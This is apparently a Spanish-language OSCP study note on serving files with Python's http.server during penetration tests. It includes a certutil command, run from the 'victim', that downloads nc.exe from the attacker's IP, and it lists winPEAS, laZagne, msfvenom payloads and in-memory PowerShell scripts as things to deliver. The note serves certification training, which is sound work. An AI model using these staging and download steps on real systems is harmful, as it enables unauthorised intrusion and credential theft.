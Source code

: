 `python3 -m http.server` es la forma más rápida y sencilla de montar un servidor HTTP temporal desde Kali o cualquier sistema con Python. En OSCP es extremadamente útil para servir payloads, herramientas o scripts a máquinas comprometidas.

---

## Iniciar servidor HTTP

```bash
cd /ruta/al/directorio
python3 -m http.server 80
```

Esto sirve todos los archivos del directorio actual por el puerto 80.

Puedes cambiar el puerto si es necesario:
```bash
python3 -m http.server 8080
```

---

## Acceso desde la víctima

```powershell
certutil -urlcache -split -f http://<tu_IP>:80/nc.exe nc.exe
```
O desde navegador, PowerShell, bitsadmin, etc.

---

## Ver actividad de descarga

Cuando alguien accede a tu servidor, verás logs en la terminal:
```
10.10.10.5 - - [03/Aug/2025 13:00:00] "GET /nc.exe HTTP/1.1" 200 -
```

---

## Casos de Uso OSCP

- Subir `winPEAS.exe`, `nc.exe`, `laZagne.exe`, payloads de `msfvenom`
- Cargar scripts PowerShell (`Invoke-*`) en memoria
- Servir cualquier archivo sin necesidad de configurar Apache o nginx

---

## Buenas Prácticas

- Usar directorios limpios para no filtrar información innecesaria
- Evitar servir binarios innecesarios o comprometedores
- Usar puertos alternativos si el 80 está filtrado

---
